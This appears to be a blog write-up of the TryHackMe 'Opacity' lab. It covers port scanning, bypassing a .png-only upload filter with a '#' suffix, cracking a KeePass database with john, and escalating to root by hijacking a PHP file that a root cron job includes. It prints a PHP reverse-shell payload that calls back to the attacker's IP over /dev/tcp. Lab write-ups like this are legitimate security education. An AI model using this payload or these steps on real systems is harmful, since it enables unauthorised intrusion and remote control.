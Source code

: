 # **Opacity** | Tryhackme


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/25a7f534-437c-4954-b925-0553935ee68b)


***

Running our nmap scan for port discovery and service detection we have-:




| Ports | Service     | Versions            |
| ----- | ----------- | ------------------- |
| 22    | SSH         | OpenSSH 8.2p1       |
| 80    | HTTP        | Apache httpd 2.4.41 |
| 139   | netbios-ssn | Samba smbd 4.6.2    |
| 445   | netbios-ssn | Samba smbd 4.6.2    |


Navigating to port 80/HTTP we have a login page, trying out several default credentials doesn't seem to work, we don't have anything juicy in page-source also :( -:


![](https://i.imgur.com/jS53K7G.png)



However performing directory bruteforcing with `dirsearch` we found few directories in which `/cloud` stands out 😁



![](https://i.imgur.com/B5XCiIh.png)



Navigating to `/cloud` we have a page with an upload function however we can't upload files locally, so we have to directly download the files by hosting it on a specific web server and pasting the URL into the blank bar given




![](https://i.imgur.com/9HdwatE.png)


I noticed you can't download files other than `.png` even if they do not exist, the file extension must literally end with a `.png` extension.



![](https://i.imgur.com/Iif2P3x.png)


We can bypass this file upload function by putting a `#` sign after our major payload file extension just as shown in the below URL. Note that you have to host your reverse shell in `PHP` format and have your listener already started up.


[http://10.11.69.221/wtf.php#.png](http://10.11.69.221/wtf.php#.png)



![](https://i.imgur.com/su4Vsmm.png)


Then we have our shell back as user `www-data`, note that this vulnerability is known as an **Remote File Upload**{RFU} vulnerability, Navigating to the `/opt` directory we have a `dataset.kdbx` file.




![](https://i.imgur.com/TZ6W2uQ.png)



We can go ahead and decrypt this file using jtR


```bash
keepass2john dataset.kdbx > hash.txt
john hash.txt --wordlist=<PATH TO WORDLIST>
```



![](https://i.imgur.com/aWIl0Nq.png)

Opening the encrypted file with the **keepass2** password manager with the new password gotten, we have another user's called `sysadmin` password


![](https://i.imgur.com/EtETWH0.png)

We can use this to login via SSH, Enumerating cron jobs with `pspy32s` we can see that the root user is running the `/home/sysadmin/scripts/script.php` script every minute


![](https://i.imgur.com/RRiOleS.png)

However reading this script we can see that a `backup.iinc.php` file is been called to backup everything in the `scripts` folder to `/var/backups/backup.zip` 


![](https://i.imgur.com/d9QMsHV.png)


Since this is this user's home folder we can move this file to the `/tmp` directory and create another file with that same name and paste our payload in there, Probably your reverse shell :(

![](https://i.imgur.com/DqP048F.png)

Then we have our reverse shell as user `root`


```PHP
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.11.69.221/1337 0>&1'");
?>
```


![](https://i.imgur.com/7hcHGRz.png)


GG

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

